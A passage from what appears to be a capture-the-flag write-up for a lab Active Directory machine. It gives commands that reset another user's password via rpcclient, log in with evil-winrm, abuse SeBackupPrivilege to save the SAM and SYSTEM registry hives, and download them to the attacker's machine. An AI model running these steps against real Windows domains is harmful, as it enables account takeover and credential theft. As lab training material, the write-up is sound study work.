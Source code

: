 ```bash
rpcclient -U K2.thm/j.bold K2Server.k2.thm
> #8rockyou

setuserinfo2 j.smith 23 'Password123!'
```

Now access with this new credentials to Domain Controller using WinRM.

```bash
evil-winrm -i 10.10.82.211 -u 'j.smith' -p 'Password123!'
```

Print the user flag

```
more C:\Users\j.smith\Desktop\user.txt
```



## Privilege Escalation



Look up the j.smith's privileges we can see this:

```powershell
whoami /all
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SeBackupPrivilege PrivEsc

With these 2 privileges we can request the SAM and SYSTEM file which contents the local passwords of the machine.

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Now download them to our local machine using `download` function of evil-winrm.

```
> download sam
> download system
```
